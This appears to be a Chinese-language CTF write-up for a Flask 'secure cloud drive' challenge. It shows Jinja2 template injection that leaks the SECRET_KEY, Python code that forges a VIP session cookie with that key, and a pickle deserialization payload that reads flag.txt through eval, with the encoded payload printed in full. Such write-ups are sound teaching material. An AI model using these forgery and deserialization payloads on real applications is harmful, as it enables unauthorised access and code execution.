# Write-Up

## SSTI

- 进入网站首页，`/home`，可以看到登录和注册功能
  - 
  - `/auth/login`
  - 
  - `/auth/register`
  - 
- 此外，还可以看到底边 copyright 信息中有一行：
  - `Built with Flask & Jinja2`
  - 

- 正常注册用户登录之后，显示欢迎界面
  - 
  - `/file/`
  - 
  - 点击文件上传 `/upload`，可以看到一个文件上传的按钮 `Select File` 和一个 `Description` 文本输入框。
  - 

> SSTI（Server-Side Template Injection）是一种服务器端的模板注入攻击，它利用了 **网站后端模板引擎的漏洞**。模板引擎用于将动态数据嵌入到HTML页面中，常见的模板引擎包括 **Jinja2**、Twig、Freemarker等。
> SSTI攻击的工作原理基于模板引擎的特性，这些引擎通常支持复杂的功能，如变量替换、函数调用和逻辑运算。如果开发者没有恰当地处理用户输入，攻击者可以注入恶意模板代码，利用模板引擎的功能执行服务器端的代码。

- 正常上传文件和添加描述可以看到，网站会回显用户输入的描述。
  - 
  - 
- <del>出于此网站是安全云盘涉及文件加解密先不考虑文件上传漏洞</del>，再此根据网站的底边栏目这个略显突兀的框架说明 :joy: 可以想到要对描述文本框进行注入尝试。
  - `{{ 4 * 4 }}` 验证漏洞存在性，漏洞存在：
  - 
  - 尝试一些系统命令注入，似乎没有反应？尝试 `{{ config }}`，可以看到网站的回显：
  - 
  - 不难看出 `Il|l1i1|II|11l1I|1I1C0nGr@ts|i1iI11i1iIlili|I|||u_can_$et_AcCEss_T0||VIP_USER_upload||:)I|I|i|11llIlII|||1ii` 中的提示十分明显：**u can get access to vip user upload**，你可以利用 secret_key 获取 VIP 用户的权限。

## Flask Session 伪造

> 在 Flask 框架中，session 是用来在多个请求之间保存用户的数据。Flask 使用客户端侧的 session，这意味着 session 数据是存储在用户浏览器的 cookie 中的。这种方式让 Flask 的 session 实现相对简单，而且不需要服务器端存储，但它也需要确保数据的安全性和完整性。
> 数据加密：为了保护 session 数据不被篡改，**Flask 会使用一个密钥（SECRET_KEY）对数据进行签名。** 这个密钥应该是复杂的、不容易猜到的，因为安全性高度依赖于这个密钥的强度。

- 获取到 config 内的 SECRET_KEY 后，我们很自然地想到可以去伪造 session。
- 首先在 `F12` 开发者模式找到自己作为普通用户的 session：
  - `eyJjc3JmX3Rva2VuIjoiZjIyMzBjZjQ2MDM1N2Q2NzVkZjVmZjQ0NjA0NTJkNmNkMDdhZWRkMSIsImlzX3ZpcCI6MCwidXNlcl9pZCI6NH0.ZpP4ng.9wexVLL_z0keMw_Ard5C04yuRis`
  - 

```python
#!/usr/bin/env python3
import sys
import zlib
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b".", 1)
    payload, timestamp = payload.rsplit(b".", 1)

    decompress = False
    if payload.startswith(b"."):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception(
            "Could not base64 decode the payload because of " "an exception"
        )

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception(
                "Could not zlib decompress the payload before " "decoding the payload"
            )

    return session_json_serializer.loads(payload)


if __name__ == "__main__": 
    # 运行时需要输入一个参数
    print(decryption(sys.argv[1].encode())) 
```

- 对于 ``session`` 进行解码可得：
  - `{'csrf_token': 'f2230cf460357d675df5ff4460452d6cd07aedd1', 'is_vip': 0, 'user_id': 4}`
  - 

- 对于解析出的 `csrf_token`，编写构造 Session 的代码如下：

```python
from flask.sessions import SecureCookieSessionInterface

secret_key = "Il|l1i1|II|11l1I|1I1C0nGr@ts|i1iI11i1iIlili|I|||u_can_$et_AcCEss_T0||VIP_USER_upload||:)I|I|i|11llIlII|||1ii"


# 创建一个模拟的 Flask 应用对象并设置 SECRET_KEY：
class App(object):
    def __init__(self):
        self.secret_key = None


app = App()
app.secret_key = secret_key

# 创建一个 SecureCookieSessionInterface 实例
si = SecureCookieSessionInterface()
serializer = si.get_signing_serializer(app)
# 签名序列化器
session = serializer.dumps(
    {
        "is_vip": True,
        "csrf_token": "f2230cf460357d675df5ff4460452d6cd07aedd1",
        "user_id": 1,
    }
)
print(session)
```

- 执行代码即可得到伪造完成的具有 vip 权限的 Session
  - `eyJpc192aXAiOnRydWUsImNzcmZfdG9rZW4iOiJmMjM3MWY2MWI0NzM2NjFhY2RlMDFiODFhNDNlMjQyMWU0OTlmNDcyIiwidXNlcl9pZCI6MX0.ZpP9KA.JZqQJH-d41ZBUp8CS9gZiiz0GSg`
  - 

## 反序列化漏洞


- 获取到 `Session` 后，F12 打开开发者模式进行替换，刷新重新加载 `/home` 页面，可以看到多出了一个模块：**vip用户专属功能：可以优先和客服沟通哦~**
  - 

- 同样是一个文本输入框和一个提交按钮，那么，会不会还是 SSTI 漏洞？尝试进行 `{{ config }}` 注入：
  - 
  - 点击查看后回显是 `unquote_to_bytes() or pickle.loads() error! Please input again!`

1. `unquote_to_bytes()` - 这是一个通常用于 **解码 URL 编码** 的字节序列的函数。如果在解码过程中遇到无法识别或格式不正确的编码数据，可能会引发错误。

2. `pickle.loads()` - 这个函数用于反序列化 Python 对象，**即从字节序列中恢复 Python 对象**。如果提供给 pickle.loads() 的数据被损坏或不是有效的 pickle 格式，或者如果数据包含任何 pickle 安全问题，都会导致错误。


> 反序列化漏洞是一种安全漏洞，发生在当应用程序在反序列化处理不受信任的数据时未能正确验证或清理该数据。反序列化是将从文件、数据库或网络传输中得到的结构化数据流转换回对象的过程。如果恶意用户能够操纵这些数据流，他们可能会**注入不良代码或操作，这可能导致执行任意代码、绕过身份验证、进行远程代码执行**等危害。


也许这是一个很明显的提示，要求我们利用 URL 编码构造字节序列进行反序列化注入。根据提示构造以下代码，在反序列化时会执行一个打开并读取 `flag.txt` 文件内容的 Python 代码：


```python
import pickle
import builtins
import urllib.parse


class EvilPickle:
    def __reduce__(self):
        # 当反序列化时，这个函数会被调用
        # 它返回一个元组，其中包含一个可调用的对象和一个参数列表
        # 在这个例子中，我们返回eval函数和它应该执行的字符串
        return (builtins.eval, ("open('./flag.txt', 'r').read()",))


# 序列化EvilPickle实例
pickle_string = pickle.dumps(EvilPickle())
# print(pickle_string)
p = urllib.parse.quote(pickle_string)
print(p)
```

执行代码后我们可以得到攻击负载如下：

```text
%80%04%95%3A%00%00%00%00%00%00%00%8C%08builtins%94%8C%04eval%94%93%94%8C%1Eopen%28%27./flag.txt%27%2C%20%27r%27%29.read%28%29%94%85%94R%94.
```

将负载复制到留言板的文本框中进行提交，得到 flag：
  - `flag{flag_test}`
  - 